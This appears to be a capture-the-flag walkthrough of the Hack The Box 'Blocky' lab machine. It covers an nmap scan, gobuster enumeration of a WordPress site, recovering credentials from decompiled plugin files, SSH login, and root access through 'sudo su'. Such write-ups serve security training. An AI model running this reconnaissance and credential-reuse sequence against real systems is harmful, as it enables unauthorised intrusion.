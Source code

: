 ```yaml
---
layout: writeup
show-avatar: false
redirect_from: /walkthroughs/blocky.html
title: Blocky
logo: /assets/img/writeups/htb/boxes/blocky/blocky_logo.png
platform: HTB
category: Boxes
difficulty: Easy
OS: Linux
release: "21 Jul 2017"
creator_name: Arrexel
creator_url: "https://app.hackthebox.com/users/2904"
published: "2019-11-03"
---
```


<h2 align="center">Enumeration</h2>
Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Fri Nov  1 19:17:36 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.37
Nmap scan report for 10.10.10.37
Host is up (0.098s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 19:20:49 2019 -- 1 IP address (1 host up) scanned in 192.23 seconds

```

We see there is a wordpress page running on port 80

<img src="/assets/img/writeups/htb/boxes/blocky/blocky_wordpress.png" alt="wordpress" style="zoom: 50%;" />



Running 

```sh
gobuster dir -w <wordlist> -x .php,.txt -o <outputfile> -u http://10.10.10.37
```

with the appropriate wordlist yielded the following results

```sh
/index.php (Status: 301)
/wiki (Status: 301)
/wp-content (Status: 301)
/wp-login.php (Status: 200)
/plugins (Status: 301)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-trackback.php (Status: 200)
/wp-admin (Status: 301)
/phpmyadmin (Status: 301)
/wp-signup.php (Status: 302)
/server-status (Status: 403)
```

We see several interesting possibilities for further enumeration and exploit paths, what we need  however is in /plugins

![plugins](/assets/img/writeups/htb/boxes/blocky/blocky_plugins.png)

downloading both these files and looking at them with **jd-gui** shows us the following

![blockycore](/assets/img/writeups/htb/boxes/blocky/blocky_blockycore.png)

This login and password will get us into the phpmyadmin portal, where we can look at the mySQL wordpress users table and find there is a user named **notch**, or more simply we can direct our browser to http://10.10.10.37/?author=1 and get the user name there.

This user and pass gives us login to FTP and SSH. We obviously login to SSH. We can then read the user.txt file.

Gaining root is as simple as running "sudo -l" and seeing the notch can run everything as root, and then switching to root, which we can do as we have notch's password

```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# 

```

which gives us access to the root.txt flag.
